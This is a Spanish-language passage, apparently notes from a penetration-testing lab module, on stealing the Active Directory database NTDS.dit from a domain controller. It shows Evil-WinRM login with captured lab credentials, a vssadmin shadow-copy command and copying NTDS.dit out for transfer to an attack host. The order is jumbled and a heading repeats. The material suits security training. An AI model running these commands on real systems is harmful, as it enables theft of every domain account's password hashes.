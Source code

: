 ```bash
Atacando Active Directory & NTDS.dit
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

```mathematica
vssadmin 1.1 - Herramienta de línea de comandos administrativa del servicio de copia de sombra de volumen
(C) Copyright 2001-2013 Microsoft Corp.

Copia de sombra creada con éxito para 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

### Copiando NTDS.dit desde el VSS

Luego podemos copiar el archivo `NTDS.dit` desde la copia de sombra del volumen C: a otra ubicación en el disco para prepararlo para mover `NTDS.dit` a nuestro host de ataque.

```bash
bashCopiar código  Atacando Active Directory & NTDS.dit
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

```scss
scssCopiar código        1 file(s) copied.
```

Antes de copiar `NTDS.dit` a nuestro host de ataque, es posible que queramos usar la técnica que aprendimos anteriormente para crear un recurso compartido de SMB en nuestro host de ataque. No dudes en volver a la sección **Atacando SAM** para revisar ese método si es necesario.

## Capturando NTDS.dit

Los Servicios de Directorio de NT (NTDS) son el servicio de directorio utilizado con AD para encontrar y organizar recursos de red. Recordemos que el archivo **NTDS.dit** se almacena en **%systemroot%/ntds** en los controladores de dominio en un bosque. La extensión **.dit** significa árbol de información de directorio. Este es el archivo de base de datos principal asociado con AD y almacena todos los nombres de usuario de dominio, hashes de contraseñas y otra información crítica del esquema. Si se puede capturar este archivo, podríamos comprometer potencialmente cada cuenta en el dominio de manera similar a la técnica que cubrimos en la sección **Atacando SAM** de este módulo. Al practicar esta técnica, considera la importancia de proteger AD y piensa en algunas formas de detener este ataque.

### Conectándose a un DC con Evil-WinRM

Podemos conectarnos a un DC objetivo utilizando las credenciales que capturamos.

#### Atacando Active Directory & NTDS.dit

```bash
bashCopiar códigosherlock28@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```
